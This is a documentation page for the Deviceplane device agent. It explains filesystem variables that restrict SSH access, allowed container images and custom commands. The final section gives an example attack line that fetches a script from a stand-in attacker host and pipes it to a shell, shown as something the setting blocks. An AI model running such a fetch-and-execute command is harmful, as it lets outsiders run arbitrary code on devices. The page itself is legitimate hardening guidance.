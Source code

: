 
<Docs title="Device Variables">

# Device Variables

## Variables

Variables allow you to customize various aspects of Deviceplane agent behavior. Variables are set through the filesystem meaning that interactions occur by placing files in a specific location (`/etc/deviceplane`). The agent detects these changes (without ever needing a restart) and changes behavior accordingly.

Below is a reference list of flags available in the API. All of these flags should be placed in the `/etc/deviceplane` directory as a standalone file. For example, the `authorized-ssh-keys` file would exist as a file at `/etc/deviceplane/authorized-ssh-keys`.

### authorized-ssh-keys

The `authorized-ssh-keys` variable sets the list of allowed keys for SSH access to a device. This file follows the standard `authorized_keys` format for SSH.

Adding this variable fundamentally changes how SSH authorization works. Normally authorization for SSH occurs in the Deviceplane backend as all other API requests are. After adding this variable the agent will begin also authorizing using SSH keys.

SSH via CLI is currently the only supported method when using this variable. SSH via the UI is not yet supported when using this variable.

Here is a list of implications with this change.

- If a bad actor gets access to a Deviceplane access key then they won't be able to SSH to any devices without also having an authorized SSH key
- If you lose access to your SSH keys you will have no way of accessing your device

### disable-ssh

The `disable-ssh` variable disables SSH access to the device. This should be an empty file; its presence or absence is all that's needed.

This variable is useful for restricting SSH access from the side of the device. For example, imagine a device with a touchscreen in use by a customer who would prefer to have SSH access to their device allowed only when they explicitly opt-in. The variable `disable-ssh` could be present on the device by default, and then the customer could opt-in to have their device accessed via some type of settings page in the running application. This settings page could create or remove `/etc/deviceplane/authorized-keys` to turn on or off SSH access.

### whitelisted-images

> It's recommended to use the `whitelisted-images` variable in conjunction with `disable-custom-commands`.

The `whitelisted-images` variable sets the list of images that can be used on a device. If this file is nonexistent or empty, any image will be allowed.

An image is allowed if its name is prefixed by a line in the file.

For example, the following `whitelisted-images` file will allow:

1. The `redis` image, with any tag, or no tag (which defaults to latest)
1. And any images from the `myorg` org (e.g. `myorg/deployimage`)

```
redis
myorg/
```

Here is a list of implications with this change.

- If a bad actor gets access to a Deviceplane access key then they won't be able to launch images that aren't in your `whitelisted-images` file.
  - If all images that run on your device are under your org name on DockerHub (e.g. `myorg/`), then keeping this list up to date is easy!

### disable-custom-commands

> It's recommended to use the `whitelisted-images` variable in conjunction with `disable-custom-commands`.

The `disable-custom-commands` variable disables custom commands in the application config. Like `disable-ssh`, this should be an empty file; its presence or absence is all that's needed.

When this variable is set, the `command` and `entrypoint` keys are not allowed to be used. The agent will refuse to run services that use the keys and log an error.

Here is a list of implications with this change.

- If a bad actor gets access to a Deviceplane access key then they won't be able to change the `entrypoint`/`command` of a container to execute arbitrary code. For example, `entrypoint: curl http://attackersurl.test | sh`, will be disallowed.

</Docs>
